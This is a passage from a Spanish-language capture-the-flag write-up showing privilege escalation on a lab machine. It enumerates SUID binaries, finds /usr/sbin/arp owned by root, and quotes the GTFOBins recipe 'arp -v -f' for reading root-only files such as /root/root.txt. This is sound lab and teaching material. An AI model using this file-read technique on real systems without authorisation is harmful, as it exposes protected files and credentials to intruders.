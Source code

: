 # Privilege Escalation
## Abusing `arp` SUID
Enumerando la máquina podemos ver algo interesante en el `.bash_history` de `webadmin`

```console
/.check_metadata
./.check_metadata image.jpg
sudo ./.check_metadata
exit
ls a-ll
ls -all
./.check_metadata image.jpg
exit
./.check_metadata image.jpg
exit
LFILE=/root/root.txt
arp -v -f "$LFILE"
clear
exit
```

Literalmente nos ha chivado la escalada de privilegios, ~~muy realista todo~~

Podemos comprobar que el binario de `arp` tiene permiso de SUID y el propietario es `root`
```console
webadmin@analytics:~$ find / \-perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/arp
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/su
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
```

```console
webadmin@analytics:~$ ls -la  /usr/sbin/arp
-rwsr-xr-- 1 root webadmin 67672 Oct  2  2020 /usr/sbin/arp
```

Podemos consultar en [GTFOBins](https://gtfobins.github.io/gtfobins/arp/#suid) y vemos que tenemos un apartado de SUID para escalar privilegios.

```console
sudo install -m =xs $(which arp) .

LFILE=file_to_read
./arp -v -f "$LFILE"
```
